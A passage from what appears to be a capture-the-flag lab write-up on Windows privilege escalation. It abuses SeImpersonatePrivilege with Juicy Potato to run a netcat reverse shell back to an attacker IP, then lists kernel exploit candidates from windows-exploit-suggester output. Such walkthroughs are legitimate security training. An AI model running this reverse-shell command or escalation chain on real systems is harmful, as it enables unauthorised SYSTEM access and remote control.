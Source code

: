 We have the `SeImpersonatePrivilege` privilege.

#### Juicy Potato

Let try Juicy Potato attack.

After uploading a copy of the [exploit](https://github.com/ohpe/juicy-potato), we run the following command.

```bash
JuicyPotato.exe -l 1337 -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}" -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.17.90 9002" -t * 
```

![](4.png)

We got System!

### Method 2: Kernel

Let's run windows exploit suggester and see what we get

```terminal
$ python2 windows-exploit-suggester.py --database 2023-04-05-mssb.xls --systeminfo sysinfo.txt                                                     130 ⨯
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
